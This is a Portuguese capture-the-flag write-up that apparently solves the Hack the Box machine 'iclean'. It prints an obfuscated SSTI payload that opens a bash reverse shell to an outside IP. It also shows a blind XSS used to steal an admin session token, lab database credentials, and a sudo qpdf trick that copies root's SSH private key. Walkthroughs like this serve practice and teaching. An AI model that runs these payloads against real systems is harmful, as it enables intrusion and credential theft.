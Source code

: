 ```yaml
---
title: "Hack the Box - iclean"
summary: "Resolução da máquina perfection do hack the box "
tags: ["CTF", "Hack the Box"]
# externalUrl: ""
date: 2024-03-22
draft: false
showAuthor: false
authors:
  - paixao
showAuthorsBadges: false
---
```


# Reconhecimento

A princípio realizamos o mapeamento das portas abertas no nosso alvo, bem como seus serviços e versões.

```
PORT      STATE  SERVICE VERSION
22/tcp    open   ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http    Apache httpd 2.4.52 ((Ubuntu))
```

Ao tentar acessar o servidor WEB, nós somos redirecionados para o domínio capiclean.htb. Dessa forma, adicionamos a seguinte linha no nosso arquivo /etc/hosts para que esse domínio consiga ser resolvido.

```
 echo "10.10.11.12 capiclean.htb" | sudo tee -a /etc/hosts
```

Após acessar a aplicação e realizarmos uma busca na aplicação por vulnerabilidades, e nos deparamos com o endpoint "http://capiclean.htb/quote" que trouxe uma mensagem suspeita:

```
Your quote request was sent our management team. They will reach out soon via e-mail. Thanks for the interest you have shown in our services
```

Ao ler esta mensagem, automaticamente verificamos se algum parâmetro da request enviada para o admin, vulnerável a XSS, pois se fosse o caso nós poderíamos fazer a exfiltração do seu token e utilizar a app com privilégio máximo.

![Blind XSS ](blind-xss.png)

Utilizamos os payload acima para enviar o token de sessão do admin para um servidor web que que levantamos com python utilizando o comando

```
python3 -m http.server
```

Como resultado desse processo, obtivemos o token de sessão do admin
![Recebendo o token](5.png)

# Acesso inicial

De posse do token, enumeramos mais alguns endpoint da aplicação

```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-
medium.txt:FFUZ -u http://capiclean.htb/FFUZ
```

E encontramos o endpoint 'dashboard' que tem acesso restrito. Dessa forma, adicionamos o cookie de admin no browser e conseguimos acessar o endpoint.

Seguindo o 'happy path' da aplicação nós geramos um invoice, e posteriormente tentamos acessá-lo por meio da função de geração de QRcode. Analisando os parâmetros request, nós identificamos um SSTI no parâmetro 'qr_link'

![SSTI](SSTI.png)

Uma vez que identificamos esta vulnerabilidade, nós iniciamos os testes com payloads diversos para conseguir uma shell reversa. O payload a seguir foi o que nos possibilitou acessar o sistema

```
 {{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash -c '/bin/bash -i >& /dev/tcp/Nosso_IP/4444 0>&1'")|attr("read")()}}
```

# Escalação de privilégio

Uma vez que conseguimos executar código na máquina alvo, realizamos uma varredura na em sua infraestrutura. Começamos pelo código fonte da aplicação. Nele encontramos algumas credenciais de banco de dados:

```python3
db_config = {
'host': '127.0.0.1',
'user': 'iclean',
'password': 'pxCsmnGLckUb',
'database': 'capiclean'
}
```

Ao verificarmos as portas abertas na aplicação, percebeu-se que a porta 3306 estava aberta. Indicando que existe um banco MySQL em execução. De posse dessa informação utilizamos as credenciais antes encontradas no código para assim consegui ter acesso aos dados do banco

```
mysql --database capiclean -e 'show databases;' -u iclean -p
```

Após isso, tentamos quebrar ambas as hashs e tivemos sucesso em quebrar apenas a hash do usuário 'consuela' que resultou na senha 'simple and clean'. Com a senha e o usuário foi feita a tentativa de logins via ssh.

```
ssh consuela@$rhost
```

Que foi bem sucedida. Agora com a shell ssh verificamos se algum comando habilitado a ser executado com privilégio de sudo.

```
sudo -l
```

Após entender do que se trata a plicação. Fizemos a seguinte suposição, se o usuário consuela tem ssh, o usuário root também deve ter ssh. Sendo sua chave privada armazenada no arquivo /root/.ssh/id_rsa, nós poderíamos mandar criar um pdf com o conteúdo da chave ssh do usuário root e direcionarmos esse pdf para um diretório acessível.

```
 sudo /usr/bin/qpdf --qdf --add-attachment /root/.ssh/id_rsa -- --empty ./id_rsa
```

Após a suposição se mostrar verdadeira, nós resgatamos a chave ssh ao verificar o conteúdo interno do pdf, nós realizamos o login via root por meio do comando

```
ssh root@$rhost -i root_ssh_key_file
```

Com isso nós temos acesso ao usuário root e podemos ver a última flag

```
cat root.txt
```
